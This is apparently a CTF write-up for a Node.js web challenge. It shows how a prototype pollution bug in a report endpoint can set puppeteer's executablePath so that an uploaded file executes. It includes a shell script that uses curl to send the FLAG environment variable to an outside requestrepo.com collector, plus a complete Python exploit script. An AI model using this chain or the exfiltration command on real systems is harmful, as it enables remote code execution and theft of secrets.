


> simple web aPP 🧢

---

Given a web application that allows users to upload files and report issues? The application also has a bot that visits the reported URLs.

```js
// Upload endpoint
app.post('/upload', upload.single('file'), (req, res) => {
  if (!req.file) {
    return res.status(400).json({ success: false, error: 'no file uploaded' });
  }
  const rndHex = req.file.filename;
  const filePath = path.join(uploadDir, rndHex);
  
  fs.chmodSync(filePath, 0o755);
  
  const fileUrl = `/${rndHex}`;
  console.log(`Uploaded file: ${rndHex}`);

  res.json({
    success: true,
    file: rndHex,
    url: fileUrl,
    message: 'file uploaded successfully'
  });
});

app.post('/report', async (req, res) => {
  const { url, username, issue , description } = req.body;
  reports = {};
  if (!username || !issue || !description) {
    return res.status(400).json({ success: false, error: 'username, issue, and description required' });
  }
  if (!reports[username]) reports[username] = {};
  reports[username][issue] = description;

  if (!url) {
    return res.status(400).json({ success: false, error: 'url required' });
  }

  let browser;
  try {
    browser = await puppeteer.launch({
      args: ['--no-sandbox', '--disable-setuid-sandbox']
    });
    const page = await browser.newPage();

    console.log(`[BOT] Visiting: ${url}`);
    await page.goto(url, { waitUntil: 'load', timeout: 15000 });

    res.json({ success: true, message: `bot visited ${url}` });
  } catch (err) {
    console.error('Bot error:', err);
    res.status(500).json({ success: false, error: 'bot failed to visit url' });
  } finally {
    if (browser) await browser.close().catch(() => {});
  }
});
```

Interesting, we can see that after a file is uploaded, its permissions are changed to be executable by everyone.

```js
fs.chmodSync(filePath, 0o755);
```

Also there is a report endpoint that uses puppeteer to visit a URL provided by the user. With reports being stored in a variable in the report endpoint.

```js
reports = {};
if (!username || !issue || !description) {
  return res.status(400).json({ success: false, error: 'username, issue, and description required' });
}
if (!reports[username]) reports[username] = {};
reports[username][issue] = description;
```

This looks like a prototype pollution vulnerability, as we can set arbitrary properties on the `__proto__` object by using `__proto__` as the username.

But what can we do with prototype pollution here? Looking further down in the report endpoint, we can see that puppeteer is launched with some custom arguments.

```js
browser = await puppeteer.launch({
  args: ['--no-sandbox', '--disable-setuid-sandbox']
});
```

By looking at the puppeteer source code, we can see that we can do prototype pollution to set arbitrary launch options for puppeteer by setting them on the `executablePath` property.



Then the `executablePath` option will pass to child_process.spawn, allowing us to execute arbitrary files.



Using this, we can upload a file that contains a script to exfiltrate the flag, then report an issue with the `__proto__` username, setting the `executablePath` to point to our uploaded file.

When the bot visits our report, it will launch puppeteer using our uploaded file as the executable, which will run our script and exfiltrate the flag.

```sh
#!/bin/bash
curl http://requestrepo.com/r/jie2874c/flag=$(echo $FLAG | base64)
```

Here is the final exploit:

```python
import requests

URL = 'http://localhost:3000'

files = {
    'file': ('exploit.sh', '#!/bin/bash\ncurl http://requestrepo.com/r/jie2874c/flag=$(echo $FLAG | base64)\n', 'application/x-sh')
}

response = requests.post(f'{URL}/upload', files=files)
upload_data = response.json()

if not upload_data['success']:
    print('File upload failed')
    exit()

uploaded_file = upload_data['file']
print(f'Uploaded file: {uploaded_file}')

report_data = {
    'url': f'{URL}/',
    'username': '__proto__',
    'issue': 'executablePath',
    'description': f'/app/static/{uploaded_file}'
}
response = requests.post(f'{URL}/report', json=report_data)
report_result = response.json()
print(f'Report result: {report_result}')
```
